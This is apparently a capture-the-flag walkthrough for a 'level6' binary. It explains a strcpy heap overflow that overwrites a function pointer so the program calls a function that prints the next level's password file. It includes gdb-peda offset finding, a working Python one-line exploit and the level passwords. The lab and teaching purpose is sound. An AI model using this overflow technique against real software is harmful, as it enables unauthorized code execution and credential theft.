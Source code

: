 # Level6 - strcpy buffer overflow

## Local script usage

```shell
Usage: ./main.sh
```

## Passwords and token

|        |                                                                    |
| ------ | ------------------------------------------------------------------ |
| level6 | `d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31` |
| level7 | `f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d` |

## Steps to resolve on VM

Note: We will use `gdb-peda`. You can setup peda with the script: [scripts/installPeda.sh](../../scripts/installPeda.sh)

Execute level6

```shell
./level6
> Segmentation fault (core dumped)

./level6 a
> Nope
```

The program segfault without an argument

Lets debug the binary

```shell
(gdb) info functions
gdb-peda$ pdisas main
gdb-peda$ pdisas m
gdb-peda$ pdisas n
```

See our assembly interpretation in [source file](../source.c)

```C
void n(void)
{
    system("/bin/cat /home/user/level7/.pass");
}

void m(char *str)
{
    puts(str);
}

int main(int argc, char **argv)
{
    char *dest;
    void *m_address;
    void *arg;

    dest = (void *)malloc(0x40);
    m_address = (void *)malloc(0x4);
    m_address = (void *)m;
    arg = argv + 4;
    strcpy(dest, arg);

    ((void (*)(void))m_address)();
}
```

It seems the function m in called through an address stored in a pointer.

As `strcpy` is vulnerable, the idea is to use the vulnerability to overwrite the pointer `m_address`

`strcpy` is vulnerable with buffer overflows. We have to find the offset

```shell
gdb-peda$ pset arg cyclic_pattern(200)
gdb-peda$ run
gdb-peda$ pattern search
> Registers contain pattern buffer:
  EIP+0 found at offset: 72
  EAX+0 found at offset: 72
```

The offset is 72

And the address of n-function is `0x08048454`

Now we have everything we need, lets build our exploit.

Our exploit will contain 72 characters followed by a return address that aims n-function address.

```bash
~/level6 $(python -c 'print "A" * 72 + "\x54\x84\x04\x08"')
> f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```

---

## Sources

### Format string vulnerability

- [Memory segmentation - Cheat sheet](https://www.0x0ff.info/wp-content/uploads/2015/12/buffer-overflow-memory-segmentation-cheat-sheet.png)
- [FR - Buffer overflow](https://beta.hackndo.com/buffer-overflow/)

### Shell

- [Man malloc](https://linux.die.net/man/3/malloc)
- [Man puts](https://linux.die.net/man/3/puts)
- [Man strcpy](https://linux.die.net/man/3/strcpy)
- [Man system](https://linux.die.net/man/3/system)
